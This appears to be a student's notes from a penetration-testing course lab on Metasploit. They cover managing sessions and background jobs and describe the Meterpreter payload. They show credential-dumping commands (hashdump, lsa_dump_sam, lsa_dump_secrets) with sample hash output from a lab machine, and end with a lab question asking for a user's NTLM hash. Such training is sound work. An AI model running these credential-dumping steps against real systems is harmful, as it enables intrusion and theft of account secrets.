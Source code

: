 # 🆘 MSF Sessions

## Sessions & Jobs

`Sessions` creates dedicated control interfaces for all of your deployed modules. once a session is placed in the background, it will continue to run, and our connection to the target host will persist.

we can background the session as long as they form a channel of communication with the target host with `CRTL+Z`

We can use the `sessions` command to view our currently active sessions.

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions
```

And we can interract with sessions with the `sessions -i [no.]` command

```shell-session
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
```

If, for example, we are running an active exploit under a specific port and need this port for a different module, we'll use `jobs` command to look at the currently active tasks running in the background and terminate the old ones to free up the port.

```shell-session
msf6 exploit(multi/handler) > jobs -h
```

When we run an exploit, we can run it as a job by typing `exploit -j`

**Running an Exploit as a Background Job**

```shell-session
msf6 exploit(multi/handler) > exploit -j
```

If we want to list running jobs ->

```shell-session
msf6 exploit(multi/handler) > jobs -l
```

## Meterpreter

The `Meterpreter` Payload is a specific type of multi-faceted, extensible Payload that uses `DLL injection` to ensure the connection to the victim host is stable and difficult to detect using simple checks and can be configured to be persistent across reboots or system changes.

Once we got our meterpreter shell with admin rights we can dump hashes with the following command&#x20;

```shell-session
meterpreter > hashdump

Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<SNIP>

meterpreter > lsa_dump_sam

[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182
<SNIP>

meterpreter > lsa_dump_secrets

[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
```

_**Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.**_

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

